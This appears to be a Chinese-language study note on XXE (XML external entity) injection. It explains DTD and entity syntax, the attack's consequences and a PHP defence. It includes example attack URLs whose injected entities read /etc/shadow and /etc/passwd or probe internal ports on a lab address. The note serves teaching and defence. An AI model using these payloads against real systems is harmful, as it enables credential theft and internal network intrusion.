


# XXE

* XML
  * 基础知识
    * XML中可以引入外部文件
      * DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用
      * 引用外部DTD
        * `<!DOCTYPE 根元素 SYSTEM "文件名">`
        * 或者
          * `<!DOCTYPE 根元素 PUBLIC "public_ID" "文件名">`
      * 引用外部实体
        * `<!ENTITY 实体名称 SYSTEM "URI">`
        * 或者
          * `<!ENTITY 实体名称 PUBLIC "public_ID""URI">`
    * 当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害
      * 不同程序支持的协议不一样
        * 
* `XXE`=`XML eXternal Entity`=`XML外部实体`
  * -> 
    * `XML外部实体注入`
    * `XXE漏洞`
    * `XXE攻击`
  * 概述
    * 一种针对 `弱配置` = `配置有问题` 的 `解析XML输入的应用程序` = `XML解析器`=`XML parser`的攻击
      * 当包含对外部实体的引用的XML输入是由弱配置的XML解析器处理时该攻击就会发生
      * 如果正确利用该漏洞，可能非常严重
    * 2017年的`OWSAP` 10之一
  * 攻击类型：`代码注入类`
  * 后果：泄漏机密数据
    * 导致 ~= 涉及到
      * 拒绝服务
      * 服务器端请求伪造
      * 端口扫描
  * XXE漏洞利用 = XXE攻击
    * 测试是否存在XXE漏洞
      * 第一步：尝试插入XML原字符metacharacter
    * 案例
      * 亿笑-Dos攻击
    * 攻击代码举例
      ```bash
      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "file%3A%2F%2F%2Fetc%2Fshadow">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"file%3A%2F%2F%2Fetc%2Fpasswd">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"http%3A%2f%2f192.168.0.145%3A22%2f123">]><root>%26xxe%3B<%2Froot>

      http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "http%3A%2f%2f192.168.0.145%3A23%2f123">]><root>%26xxe%3B<%2Froot>
      ```
      * 
  * 防护=对策
    * 举例
      * PHP
        * 禁用外部实体：`libxml_disable_entity_loader`设置为`TRUE`
